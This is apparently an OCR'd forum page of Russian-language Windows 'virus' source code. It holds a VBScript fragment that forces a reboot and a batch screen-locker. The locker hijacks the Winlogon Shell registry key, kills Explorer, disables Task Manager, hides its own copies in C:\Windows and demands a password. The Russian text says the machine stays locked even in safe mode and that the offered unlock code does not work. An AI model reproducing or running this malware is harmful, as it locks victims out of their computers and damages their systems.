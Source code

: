 echo s.run "shutdown -r -t 0 -c ""pcforumhack.ru™"" -f",1 >> %temp%\temp.vbs
start %temp%\temp.vbs
start %temp%\temp1.vbs
start %temp%\temp2.vbs

Вирус полностью блокирует систему при следующем запуске Windows.Даже в безопасном режиме, выключает диспетчер задач.Чтобы разблокировать компьютер можно введя код 200393!(Но он не разблокирует)

@echo off
CHCP 1251
cls
Set Yvaga=На вашем компьютере найден вирус.
Set pass=Пароль
Set pas=Введите пароль.
Set virus=Чтобы разблокировать ПК вам потребуется ввести пароль
Set dim=Выключаю вирус...
title Внимание!!!
CHCP 866
IF EXIST C:\windows\boot.bat (
goto ok )
cls
IF NOT EXIST C:\windows\boot.bat (
ECHO Windows Registry Editor Version 5.00 >> C:\0.reg
ECHO. >> C:\0.reg
ECHO [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] >> C:\0.reg
ECHO. >> C:\0.reg
ECHO "Shell"="Explorer.exe, C:\\windows\\boot.bat " >> C:\0.reg
start/wait regedit -s C:\0.reg
del C:\0.reg
ECHO @echo off >>C:\windows\boot.bat
ECHO C:\WINDOWS\system32\taskkill.exe /f /im Explorer.exe >>C:\windows\boot.bat
ECHO reg add "HKCU\software\Microsoft\Windows\CurrentVersion\Policies\system" /v DisableTaskMgr /t REG_DWORD /d 1 /f >>C:\windows\boot.bat
ECHO start sys.bat >>C:\windows\boot.bat
attrib +r +a +s +h C:\windows\boot.bat
copy virus.bat c:\windows\sys.bat
attrib +r +a +s +h C:\windows\sys.bat
GOTO end)
:ok
cls
Echo %Yvaga%
echo.
echo %virus%
echo %pas%
set /a choise = 0
set /p choise=%pass%:
if "%choise%" == "101" goto gold
if "%choise%" == "200393" goto status
exit
:status
echo %dim%
attrib -r -a -s -h C:\windows\boot.bat
del C:\windows\boot.bat
attrib -r -a -s -h C:\windows\sys.bat
del C:\windows\sys.bat
cls
:gold
start C:\
:end
